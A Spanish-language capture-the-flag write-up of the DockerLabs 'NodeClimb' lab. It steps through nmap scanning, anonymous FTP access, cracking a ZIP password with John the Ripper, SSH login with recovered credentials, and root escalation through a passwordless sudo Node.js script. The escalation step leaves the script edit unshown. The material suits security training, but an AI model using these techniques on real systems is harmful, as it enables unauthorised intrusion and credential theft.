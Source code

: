 ### Informe Técnico: Análisis de la máquina vulnerable **NodeClimb**

**Dificultad**: Fácil
**Objetivo**: **Escalada de privilegios y acceso root a la máquina vulnerable.**

---

#### **1. Despliegue de la máquina vulnerable**

Para comenzar, descargué la máquina **NodeClimb** desde DockerLabs. Para ello, se usa el siguiente comando para descomprimir la máquina:

```bash
unzip nodeclimb.zip
```

Una vez descomprimida, se puede desplegar ejecutando el script de instalación con privilegios de superusuario:

```bash
sudo bash auto_deploy.sh nodeclimb.tar
```

**Captura de pantalla 1**:
![Despliegue de la máquina](./Imágenes/2025-05-13_23-53.png)

---

#### **2. Confirmación de conexión a la máquina vulnerable**

Con el fin de confirmar que la máquina está corriendo y es accesible, realicé un **ping** a la dirección IP de la máquina vulnerable:

```bash
ping -c1 172.17.0.3
```

**Captura de pantalla 2**:
![Confirmación de conexión](./Imágenes/Capturas.png)

---

#### **3. Escaneo de puertos con Nmap**

A continuación, utilicé **Nmap** para realizar un escaneo de puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.3 -oG allPorts.txt
```

Este escaneo reveló que los puertos 21 (FTP) y 22 (SSH) estaban abiertos.

**Captura de pantalla 3**:
![Escaneo de puertos](./Imágenes/Capturas_1.png)

---

#### **4. Extracción de puertos relevantes**

Utilizando un script personalizado llamado `extractPorts`, extraje los puertos relevantes y luego realicé un escaneo más exhaustivo para obtener información detallada, como las versiones de los servicios:

```bash
nmap -sC -sV -p21,22 172.17.0.3 -oN target.txt
```

El escaneo mostró que el servicio **FTP** permitía acceso mediante el usuario **Anonymous**, lo que nos dio acceso sin necesidad de credenciales.

**Captura de pantalla 4**:
![Escaneo exhaustivo](./Imágenes/Capturas_2.png)

---

#### **5. Acceso al servicio FTP**

Con el usuario **Anonymous**, ingresé al servicio FTP sin necesidad de contraseña:

```bash
ftp 172.17.0.3
# Usuario: Anonymous
# Contraseña: Enter
```

Una vez dentro, listé los archivos con el comando `ls -la` y encontré un archivo **.zip** llamado `secretitopicaron.zip`. Lo descargué a mi máquina local usando el comando:

```bash
get secretitopicaron.zip
```

**Captura de pantalla 5**:
![Acceso FTP](./Imágenes/Capturas_3.png)

---

#### **6. Cracking de la contraseña del archivo ZIP**

Al intentar descomprimir el archivo `secretitopicaron.zip`, me pidió una contraseña. Usé la herramienta **John the Ripper** para crackear la contraseña.

**Paso 1: Extraer el hash del archivo ZIP**

```bash
zip2john secretitopicaron.zip > hash.txt
```

Esto convierte el archivo ZIP cifrado en un hash que John the Ripper puede procesar.

**Paso 2: Crackear el hash usando un diccionario (en este caso, `rockyou.txt`)**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

**Paso 3: Mostrar la contraseña**

```bash
john --show hash.txt
```

John encontró que la contraseña del archivo ZIP es **password1**.

**Captura de pantalla 6**:
![Cracking de contraseña](./Imágenes/Capturas_4.png)

---

#### **7. Descompresión y análisis del archivo `password.txt`**

Una vez que se obtuvo la contraseña, descomprimí el archivo ZIP con éxito. Dentro encontré un archivo llamado **password** con las siguientes credenciales:

```
usuario: mario
contraseña: laKontraseñAmasmalotaHdelbarrioH
```

Suponiendo que estas son las credenciales para el servicio **SSH**, intenté iniciar sesión en el servicio **SSH**.

**Nota**: Antes, intenté realizar un ataque de **fuerza bruta** con **Hydra** en el servicio SSH sin éxito.

**Captura de pantalla 7**:
![Archivo password.txt](./Imágenes/Capturas_5.png)

---

#### **8. Acceso al servicio SSH**

Con las credenciales obtenidas (`mario:laKontraseñAmasmalotaHdelbarrioH`), accedí exitosamente al servicio SSH:

```bash
ssh mario@172.17.0.3
```

Una vez dentro, ejecuté el siguiente comando para verificar si tenía privilegios de **sudo** sin necesidad de contraseña:

```bash
sudo -l
```

Esto reveló que el usuario **mario** tiene acceso sin contraseña a ejecutar el siguiente comando:

```
(ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

---

#### **9. Escalada de privilegios con Node.js**

Con esta información, me dirigí al directorio donde se encontraba el script (`/home/mario`) y lo edité. El script tenía permisos suficientes para ser ejecutado con **sudo**, lo que me permitió ejecutar el siguiente comando para obtener privilegios de **root**:

```bash
sudo node /home/mario/script.js
```

Luego, ejecuté:

```bash
bash -p
```

Esto abrió una terminal con privilegios **root**, completando así la escalada de privilegios.

**Captura de pantalla 8**:
![Escalada de privilegios](./Imágenes/Capturas_6.png)

---

### **Resumen**

* **Acceso inicial**: FTP con usuario **Anonymous**.
* **Descarga y análisis**: El archivo ZIP `secretitopicaron.zip` contiene credenciales para SSH.
* **SSH y privilegios de sudo**: El usuario **mario** puede ejecutar un script con **sudo** sin contraseña.
* **Escalada de privilegios**: Ejecución del script de Node.js para obtener acceso root.

Este informe describe el proceso completo de explotación de la máquina **NodeClimb** y la escalada de privilegios para obtener acceso root.
